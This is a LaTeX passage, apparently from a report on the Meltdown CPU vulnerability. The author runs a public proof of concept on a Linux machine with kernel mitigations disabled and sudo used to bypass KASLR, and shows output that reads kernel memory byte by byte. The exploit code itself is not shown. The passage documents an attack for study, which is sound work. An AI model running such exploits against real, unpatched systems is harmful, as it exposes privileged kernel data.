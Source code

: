 \documentclass{article}
\begin{document}
Having explained the absolute basics behind the attack, let's try executing a real-life proof-of-concept showcasing the possibilities. I will be using code produced by Pavel Boldin\cite{MeltdownPOC}. For reference, here are the parameters of the computer that I used for the test:

\begin{quote}
\% uname -a 
\\ $>$ Linux workstation 5.3.5-arch1-1-ARCH \#1 SMP PREEMPT Mon Oct 7 19:03:08 UTC 2019 x86\_64 GNU/Linux 
\\ \% lscpu | grep name
\\ $>$ Model name: Intel(R) Core(TM) i5-6500 CPU @ 3.20GHz
\end{quote}

Additionally, since the vulnerability was already patched, I was able to disable those mitigations, as the option to do so has been available since Linux 5.2 - the choice is mostly offered due to the great performance impact of the subsequent patches \cite{low2018overview}. The PoC that I'm about to run is going to access \lstinline{linux_proc_banner} - normally located in privileged, kernel space. Note: for the purposes of the experiment, the code is run with sudo privileges to determine the exact address space, as normally KASLR (Kernel Address Space Layout Randomization) will scramble it upon every reboot - although there have already been successful attempts at breaking that security ``feature`` as well \cite{jang2016breaking} - normally, even knowing the exact memory location, access shouldn't be allowed. 


\begin{lstlisting}[caption=Meltdown in action, frame=tlrb, breaklines=true]{Name}
% sudo ./run.sh          
read ffffffffbbc00140 = 25 % (score=963/1000)
read ffffffffbbc00141 = 73 s (score=983/1000)
read ffffffffbbc00142 = 20   (score=983/1000)
read ffffffffbbc00143 = 76 v (score=993/1000)
read ffffffffbbc00144 = 65 e (score=60/1000)
read ffffffffbbc00145 = 72 r (score=997/1000)
read ffffffffbbc00146 = 73 s (score=986/1000)
read ffffffffbbc00147 = 69 i (score=971/1000)
read ffffffffbbc00148 = 6f o (score=648/1000)
read ffffffffbbc00149 = 6e n (score=42/1000)
read ffffffffbbc0014a = 20   (score=992/1000)
read ffffffffbbc0014b = 25 % (score=969/1000)
read ffffffffbbc0014c = 73 s (score=995/1000)
read ffffffffbbc0014d = 20   (score=986/1000)
read ffffffffbbc0014e = 28 ( (score=991/1000)
read ffffffffbbc0014f = 62 b (score=977/1000)
\end{lstlisting}
\end{document}
